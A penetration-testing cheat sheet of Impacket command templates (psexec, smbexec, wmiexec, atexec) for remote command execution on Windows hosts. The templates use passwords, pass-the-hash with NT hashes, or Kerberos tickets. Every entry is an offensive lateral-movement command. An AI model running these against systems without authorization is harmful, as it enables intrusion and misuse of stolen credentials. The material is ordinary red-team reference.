 # impacket

% impacket, windows, exec

## PSEXEC with username
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
impacket-psexec <domain>/<user>:<password>@<target_ip>
```

## PSEXEC with pass the Hash (pth)
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
impacket-psexec -hashes 00000000000000000000000000000000:<nthash> <user>@<target_ip>
```

## PSEXEC - PTH to internal via external IP
```
impacket-psexec -hashes 00000000000000000000000000000000:<nthash> -port <port|445> -target-ip <external_ip> <user>@<internal_ip>
```

## PSEXEC with kerberos
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; impacket-psexec -dc-ip <dc_ip> -target-ip <target_ip> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC with username
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py <domain>/<user>:<password>@<target_ip>
```

## SMBEXEC with pass the Hash (pth)
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes <nthash> <user>@<target_ip>
```

## SMBEXEC with kerberos
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#platform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#platform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -hashes <nthash> <user>@<ip>
```

## atexec - execute command view the task scheduler 
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <nthash> <user>@<ip> "command"
```
